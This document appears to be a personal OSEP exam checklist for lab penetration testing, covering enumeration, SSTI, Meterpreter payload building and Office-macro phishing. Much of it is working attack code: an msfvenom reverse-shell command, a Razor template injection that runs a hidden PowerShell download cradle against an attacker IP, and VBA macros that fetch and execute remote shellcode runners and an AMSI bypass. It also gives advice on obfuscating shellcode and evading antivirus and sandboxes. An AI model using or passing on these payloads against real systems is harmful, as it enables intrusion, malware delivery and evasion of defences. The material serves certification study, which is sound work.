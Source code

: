# Checklist for OSEP

## Enumeration

- Switch on your apache server
- Identify External vs Internal vs Vault IPs
- Full nmap scan (TCP + UDP) against External Hosts
- Note hostnames and update /etc/hosts
- Re-scan against hostnames
- Hostnames usually mean something. Put a remark in the table. For e.g, note things like clients, devs, DB etc
- Web Services should be fully enumerated with feroxbuster/gobuster.
	- Check Source Code for possible reveal of tech stack (ie .NET Razer)
	- Login pages for default creds
	- Wordpress sites to be wpscan
	- file upload pages to be tested
- DevOps stuff like gitlab, Ansible, Artifactory should be noted down as they will likely play a part further on
- If there are fields for user input, please try SQL Injection, SSTI payloads. SQLMap can be very useful. For SSTI payloads, run the following:
```bash
# basically if the math resolves, it is vulnerable to code execution
{{4*4}}
@(3+2)
<%= 3 * 2 %>
```

## Meterpreter Payload Creation

- Use Get-Shellcode (https://github.com/gh0x0st/Get-Shellcode) to obfuscate ps1 meterpreter shellcode
- Slot that nice obfuscated shellcode into your ps1 shellcode runner. Remember to update the variables accordingly in the rest of the code. This has a 100% success rate on all OSEP Challenge Labs (CowMotors and DenkiAir included)
- if you are creating an .exe payload from csharp, use Sleep, non-emulated APIs (such as VirtualAllocExNuma) for sandbox evasion, use multiple byte XOR to encrypt your payload
- same idea for VBA
- for .hta code, it is jscript; XOR the shellcode, do dotnet2js, prepend an obfuscated jscript into the output .hta file from dotnet2js
- for prependmigrate, you need to set it up as a msfvenom option when creating a payload. Note that explorer may not always work if the target user is not an interactive user (such as svc accounts, IIS blah blah)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=443 prpendmigrateprocess=explorer.exe prependmigrate=true -f exe > evil.exe
```

### Catching Meterpreter Shells

- x86 for MSWord vectors, x64 for everything else
- Consider setting AutoRunScript in the advanced options of exploit/multi/handler to run a process migration upon establishing the meterpreter shell to evade AV
- if it doesnt work, you may wish to use prepend migrate which is another form of migration but done earlier in the process of establishing the shell (might be more unstable but allegedly more evasive)
```
msf6 (exploit/multi/handler) > set AutoRunScript post/windows/manage/migrate
```

## Initial Access

### Web SSTI Vulnerability
- if SSTI vulnerable, read this for more info (https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
- test for command execution with
```csharp
@{ 
  var psi = new System.Diagnostics.ProcessStartInfo("cmd.exe", "/c whoami");
  psi.RedirectStandardOutput = true;
  psi.UseShellExecute = false;
  var proc = System.Diagnostics.Process.Start(psi);
  var output = proc.StandardOutput.ReadToEnd();
}
@output
```
if the above works then powershell shellcode runner
```csharp
@{ System.Diagnostics.Process.Start("cmd.exe", "/c powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.XX.XX/simplerunner64.txt')"); }
```

### SQL Vulnerability



### Email Phishing Vector
- Look out for hosts with smtp (Port 25 default) and see if there are any email addresses found
- Use smtp-user-enum if unable to find email addresses
- send email with swaks


### MSDoc Phishing
- if .doc related, start off with a simple ping payload to check connectivity and command execution
```vba
Sub MyMacro()
	Dim str As String
	str = "ping.exe <kali ip>"
	Shell str, vbHide
End Sub
```
- if the above fires, use a powershell download cradle to fire off a meterpreter shell. Note that for MSWord, you need a x86 payload!
```vba
Sub MyMacro()
	Dim str As String
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/amsi.txt')"
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/simplerunner.txt')"
	Shell str, vbHide
End Sub
```
- if (New-Object System.Net.WebClient) does not work you can use the following. Though if New-Object doesnt work, it is likely that IEX is disabled as well
```vba
Sub MyMacro()
	Set shel_obj = CreateObject("Wscript.Shell")
	shell_obj.Run "powershell.exe -ep bypass -c iwr http://kali/simplerunner.txt | IEX", 0
End Sub
```
- if the above fails, likely powershell is restricted in some way or your meterpreter shell is caught (check for hits to your apache server)
- Can consider a direct VBA Shellcode Runner (obfuscated shellcode) of course
- if not, you can use get the VBA to download your compiled executable and execute it with InstalUtil


